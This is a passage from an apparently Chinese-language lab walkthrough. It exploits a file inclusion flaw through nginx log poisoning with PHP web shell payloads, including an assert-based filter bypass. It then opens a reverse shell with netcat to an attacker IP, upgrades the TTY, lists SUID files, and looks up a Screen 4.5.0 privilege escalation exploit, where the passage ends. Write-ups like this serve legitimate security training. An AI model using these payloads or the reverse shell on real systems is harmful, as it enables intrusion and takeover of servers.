 ![6](/assets/img/6.png)

很明显存在文件包含漏洞，观察发现可以包含nginx日志文件

![7](/assets/img/7.png)

访问显示了日志内容

![image-20211005094438514](/assets/img/image-20211005094438514-3412234.png)

可以进行日志中毒攻击，使用burp抓包，在 User-Agent: 中添加 payload: `<?php system($_GET['cmd']) ?>`，使用御剑连接失败，换<?php @eval($_POST['hacker']); ?>还是连接失败，怀疑有过滤，继续尝试

```
<?php
     $a = "assert";
     $a($_POST['hacker']);
?>
```

御剑连接成功

下面拿shell，kali运行

```
nc -nlvp 4444
```

使用御剑执行命令

```
nc 172.16.89.2 4444 -e /bin/bash
```

![image-20211005095333369](/assets/img/image-20211005095333369.png)

继续执行

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

升级shell

## 0x04 提权

找带 suid 的文件

```
find / -perm -u=s 2>/dev/null
```

![11](/assets/img/11.png)

在 searchsploit 里找到了一个可以提权的，版本正好是 Screen 4.5.0

```
searchsploit -w screen 4.5.0
```
